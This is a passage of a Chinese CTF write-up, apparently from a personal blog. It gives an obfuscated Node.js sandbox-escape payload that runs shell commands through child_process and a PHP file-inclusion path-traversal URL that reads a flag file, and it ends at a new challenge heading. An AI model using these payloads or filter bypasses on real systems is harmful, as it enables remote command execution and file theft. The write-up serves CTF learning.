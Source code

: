 ```javascript
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211091624244.png)

一些 wp 的做法是用模板拼接绕过, 这里给一个网上的 payload

```javascript
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```

还没搞懂是啥原理... 研究了一会发现以下两种方式都能够成功绕过

```javascript
`${`${`prototyp`}e`}`

`${`prototyp`}e`
```

另外用数组传参的形式同样也能绕过, 估计是 js 弱类型的锅

```javascript
code[]=......
```

## [网鼎杯 2020 半决赛]AliceWebsite

index.php

```php
<?php
$action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
if (file_exists($action)) {
    include $action;
} else {
    echo "File not found!";
}
?>
```

```
http://8b5c34ad-3966-4d22-8f82-978ee0b3af4e.node4.buuoj.cn:81/index.php?action=../../../flag
```

pearcmd.php 也能一把梭

## [GXYCTF2019]StrongestMind
